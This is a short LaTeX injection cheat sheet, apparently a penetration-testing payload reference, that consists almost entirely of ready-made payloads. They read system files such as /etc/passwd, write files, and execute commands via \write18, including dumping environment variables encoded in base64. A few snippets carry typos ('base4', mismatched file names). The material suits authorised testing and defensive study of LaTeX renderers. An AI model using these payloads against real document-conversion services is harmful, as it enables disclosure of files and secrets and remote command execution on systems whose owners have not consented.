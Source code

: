 # LaTex Injection

## Read file

```bash
\input{/etc/passwd}
\include{password} # load .tex file
```

Read single lined file

```bash
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

Read multiple lined file

```bash
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

Read text file, keep the formatting

```bash
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

## Write file

```bash
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile
```

## Command execution

The input of the command will be redirected to stdin, use a temp file to get it.

```bash
\immediate\write18{env > output}
\input{output}
```

If you get any LaTex error, consider using base64 to get the result without bad characters

```bash
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```bash
\input|ls|base4
\input{|"/bin/hostname"}
```

## References

* [Hacking with LaTeX - Sebastian Neef - 0day.work](https://0day.work/hacking-with-latex/)
* [Latex to RCE, Private Bug Bounty Program - Yasho](https://medium.com/bugbountywriteup/latex-to-rce-private-bug-bounty-program-6a0b5b33d26a)
* [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)